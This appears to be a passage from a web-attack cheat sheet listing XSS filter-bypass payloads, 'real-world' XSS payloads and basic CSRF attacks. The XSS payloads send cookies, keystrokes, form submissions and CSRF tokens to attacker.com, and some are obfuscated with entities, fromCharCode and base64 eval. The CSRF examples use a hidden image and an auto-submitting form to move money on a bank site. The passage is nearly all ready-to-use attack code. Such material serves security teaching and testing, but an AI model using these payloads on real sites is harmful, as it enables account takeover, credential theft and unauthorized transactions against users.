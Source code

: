 #### **Filter Bypass Techniques**
```html
<!-- Bypass script tag filter -->
<IMG SRC=javascript:alert('XSS')>
<IMG SRC="jav ascript:alert('XSS');">

<!-- Using HTML entities -->
&#x3C;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3E;&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x27;&#x58;&#x53;&#x53;&#x27;&#x29;&#x3C;&#x2F;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3E;

<!-- Using JavaScript functions -->
<script>String.fromCharCode(97,108,101,114,116,40,39,88,83,83,39,41)</script>

<!-- Using Base64 encoding -->
<script>eval(atob('YWxlcnQoJ1hTUycp'))</script>
```

#### **Real-World Attack Payloads**
```html
<!-- Cookie Stealing -->
<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>

<!-- Keylogger -->
<script>document.onkeypress=function(e){fetch('http://attacker.com/log?key='+e.key)}</script>

<!-- Form Hijacking -->
<script>document.forms[0].onsubmit=function(){fetch('http://attacker.com/steal',{method:'POST',body:new FormData(this)})}</script>

<!-- CSRF Token Stealing -->
<script>fetch('http://attacker.com/steal?token='+document.querySelector('meta[name="csrf-token"]').content)</script>
```

---

## 3. Cross-Site Request Forgery (CSRF)

CSRF tricks users into executing unwanted actions on a web application where they're authenticated.

### Basic CSRF Attacks
```html
<!-- GET Request CSRF -->
<img src="http://bank.com/transfer?amount=1000&to=attacker" width="0" height="0">

<!-- POST Request CSRF -->
<form action="http://bank.com/transfer" method="POST" id="csrf">
  <input type="hidden" name="amount" value="1000">
  <input type="hidden" name="to" value="attacker">
</form>
<script>document.getElementById('csrf').submit()</script>
```
